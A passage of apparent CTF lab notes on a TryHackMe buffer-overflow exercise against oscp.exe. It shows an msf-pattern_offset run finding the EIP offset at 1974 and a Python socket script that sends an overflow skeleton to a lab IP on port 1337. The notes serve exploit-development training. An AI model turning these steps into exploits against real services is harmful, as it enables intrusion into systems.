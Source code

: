 ```python
except:
        print "\nCould not connect!"
```

![Crashed the app and extracted the EIP contents](../../zzz_res/attachments/Pasted_image_20210502174058.png)

Crashed the app and extracted the EIP contents

Calculated the offset necessary to overwrite EIP:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_offset -l 5000 -q 43386e43
[*] Exact match at offset 1974
```

Created the exploit skeleton:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```
